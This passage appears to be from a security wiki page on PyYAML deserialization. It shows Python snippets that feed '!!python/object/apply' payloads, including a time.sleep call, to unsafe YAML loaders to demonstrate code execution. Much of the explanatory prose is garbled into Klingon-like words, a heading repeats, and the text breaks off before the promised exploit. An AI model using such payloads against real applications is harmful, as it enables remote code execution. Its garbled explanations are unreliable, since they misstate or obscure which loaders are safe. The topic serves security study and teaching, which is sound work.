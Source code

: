 **safe\_load()** **safe\_load\_all()** SafeLoader **vItlhutlh** **class object deserialization** **jatlh**. Class object deserialization example:
```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:builtins.range [1, 10, 1]'

print(yaml.load(data, Loader=UnsafeLoader)) #range(1, 10)
print(yaml.load(data, Loader=Loader)) #range(1, 10)
print(yaml.load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=Loader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=UnsafeLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=FullLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load(data)) #range(1, 10)
print(yaml.full_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>

#The other ways to load data will through an error as they won't even attempt to
#deserialize the python object
```
**unsafe\_load** vItlhutlh **serialized python class** load **code** previous. **version >= 5.1** **deserialize any serialized python class or class attribute** **allow** **Loader not specified in load() or Loader=SafeLoader**.

## Basic Exploit

**execute a sleep** **example** **how to**:
```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:time.sleep [2]'
print(yaml.load(data, Loader=UnsafeLoader)) #Executed
print(yaml.load(data, Loader=Loader)) #Executed
print(yaml.load_all(data))
print(yaml.load_all(data, Loader=Loader))
print(yaml.load_all(data, Loader=UnsafeLoader))
print(yaml.load_all(data, Loader=FullLoader))
print(yaml.unsafe_load(data)) #Executed
print(yaml.full_load_all(data))
print(yaml.unsafe_load_all(data))
```
## Vulnerable .load("\<content>") without Loader

**Old versions** of pyyaml were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

You can find the  [**description of the vulnerability here**](https://hackmd.io/@defund/HJZajCVlP)**.** The proposed **exploit** in that page is:

## .load("\<content>") without Loader Vulnerable
